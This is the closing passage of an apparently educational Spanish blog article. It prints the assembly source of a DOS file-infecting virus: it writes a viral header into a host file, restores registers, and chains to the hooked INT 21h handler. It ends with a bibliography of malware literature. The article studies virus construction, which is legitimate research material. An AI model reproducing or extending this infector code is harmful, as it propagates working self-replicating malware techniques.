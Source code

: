     mov dx, V_OFFSET + offset tmp_head               ; | DS:DX -> origen: buffer temporal para cabezal viral
    int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo                                   

close_file:    
    mov ah, 3Eh                                      ; | AH = 3Eh
    int 21h                                          ; |_DOS API - Cerrar archivo                      

exit:    
    pop ds                                           ; restaurar registros y estado CPU
    pop si
    pop dx
    pop cx
    pop bx
    pop ax
    popf

handler_old:    
    db 0EAh                                          ; JMP FAR

vector_int21    dw   ?, ?                            ; vector original de INT 21h (4 bytes)
host_head       db   90h, 90h, 90h, 90h              ; buffer para cabezal original
VIRUS_SIZE      equ  ($ - body)                      ; tamaño del virus
file_size       dw   ?                               ; buffer temporal para tamaño del huésped
tmp_head        db   4 dup (?)                       ; buffer temporal para cabezal viral
ALLOC_SIZE      equ  ($ - body)                      ; espacio a reservar para el virus   

virus ends
end start
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 